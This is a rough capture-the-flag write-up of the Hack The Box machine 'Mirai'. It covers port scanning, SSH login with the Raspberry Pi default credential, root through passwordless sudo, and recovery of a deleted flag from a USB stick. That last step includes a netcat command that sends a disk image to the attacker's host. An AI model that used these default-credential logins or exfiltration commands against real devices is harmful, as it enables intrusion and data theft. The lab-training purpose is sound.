



# Summary


## about target

tip:  10.129.10.44

hostname:  Mirai

Difficulty:  Easy


## about attack

+ web enum, default credential login via ssh
+ Usb delete file recovery.
+ watch the video.


**attack note**

```bash
Mirai / 10.129.10.44

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aaef5ce08e86978247ff4ae5401890c5 (DSA)
|   2048 e8c19dc543abfe61233bd7e4af9b7418 (RSA)
|   256 b6a07838d0c810948b44b2eaa017422b (ECDSA)
|_  256 4d6840f720c4e552807a4438b8a2a752 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1594/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-favicon: Plex
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)

---- insteresting 
pi-hole, 3.1.4
plex-3.9.1-85417e0.js/ 32400/web/index.html


---- http enum
http://10.129.10.44/admin/index.php?login    
version: 3.1.4, auth rce: https://www.exploit-db.com/exploits/48442

:32400/web/index.html
regisger, hello123abc@local.com:Password!


---- exploit

ssh, use the pi default credential; 
pi:raspberry

sudo -l 

---- root
sudo /bin/bash   

recovery flag
# check the usb drivers;  or  lsblk
mount  

cd /media/usbstick
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb

# go to /dev/sdb
cd /dev/sdb
# -a, process a binary file as if it were exit;
# -P, Interpret PATTERN as a Perl regular expression
# -o, Print only the matched (non-empty) parts of a matching line, with each such part on a separate output lin
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb

recovery flag 2
dd if=/dev/sdb | zip -1 - | dd of=usb.zip
# nc transfer or scp 
nc -vnlp 9001 > usb.gz 
nc 10.10.14.78 9001 < usb.gz 

scp pi@$tip:/tmp/usg.gz ./

# decompress and recovery
file usb.gz 
gunzip usb.gz 
extundelete usb --restore-all

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


## http enum

dir scan; no interesting found.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://mirai.htb/ -o gobuster.log 

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://mirai.htb:32400/ -o gobuster-32400.log 
```

Tried default login, wrong

password, raspberry




port 32400

default login, not work;  admin:password;

register and login, hello123abc@local.com:Password!




search exploit, found nothing available


# Exploit

reuse plex default password login ssh.

```bash
ssh, use the pi default credential; 
pi:raspberry
```

got pi shell.


# Privesc


## Local Enum

sudo enum

```bash
sudo -l
```

pi could run sudo without password.


## System

```bash
sudo /bin/bash
```

got root.




## recovery flag

https://0xdf.gitlab.io/2022/05/18/htb-mirai.html#http--plex---tcp-32400

```bash
recovery flag
# check the usb drivers;  or  lsblk
mount  

cd /media/usbstick
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb

# go to /dev/sdb
cd /dev/sdb
# -a, process a binary file as if it were exit;
# -P, Interpret PATTERN as a Perl regular expression
# -o, Print only the matched (non-empty) parts of a matching line, with each such part on a separate output lin
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb

recovery flag 2
dd if=/dev/sdb | zip -1 - | dd of=usb.zip
# nc transfer or scp 
nc -vnlp 9001 > usb.gz 
nc 10.10.14.78 9001 < usb.gz 

scp pi@$tip:/tmp/usg.gz ./

# decompress and recovery
file usb.gz 
gunzip usb.gz 
extundelete usb --restore-all
```


## proof

```bash


```


